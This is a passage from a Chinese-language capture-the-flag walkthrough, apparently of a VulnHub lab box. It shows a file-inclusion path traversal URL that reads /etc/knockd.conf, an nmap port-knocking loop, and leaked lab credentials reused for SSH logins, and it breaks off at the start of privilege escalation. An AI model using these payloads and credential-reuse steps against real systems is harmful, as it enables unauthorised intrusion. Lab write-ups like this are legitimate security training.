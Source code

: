 ![image-20211007225528688](/assets/img/image-20211007225528688.png)

有一条错误信息"File does not exist"，猜测存在文件包含漏洞，对请求参数和值进行模糊测试

![image-20211007230414693](/assets/img/image-20211007230414693.png)

发现存在file参数文件包含漏洞

![image-20211007230703806](/assets/img/image-20211007230703806.png)

查攻略，发现使用了knock 服务保护 SSH,按特定的访问端口才可以访问服务，访问knock的配置文件

http://172.16.89.10/manage.php?file=../../../../../../../../etc/knockd.conf

![image-20211007232625489](/assets/img/image-20211007232625489.png)

访问配置文件中的端口

```bash
for x in 7469 8475 9842; do nmap -Pn --max-retries 0 -p $x 192.168.141.143; done
```

下来ssh可以连接了，尝试之前UserDetail表中爆出的账号密码，发现三个可用

```
chandlerb   UrAG0D!
joeyt       Passw0rd
janitor     Ilovepeepee
```

在hanitor下发现隐藏文件

![image-20211007233100015](/assets/img/image-20211007233100015.png)

使用这个密码表再测一下ssh，发现一个新账号登陆成功

```
fredf   B4-Tru3-001
```

下来尝试提权

## 0x04 提权

运行

```
sudo -l
```

![image-20211007233251603](/assets/img/image-20211007233251603.png)

运行/opt/devstuff/dist/test/test，发现其实是运行test.py

![image-20211007233446942](/assets/img/image-20211007233446942.png)

搜索test.py
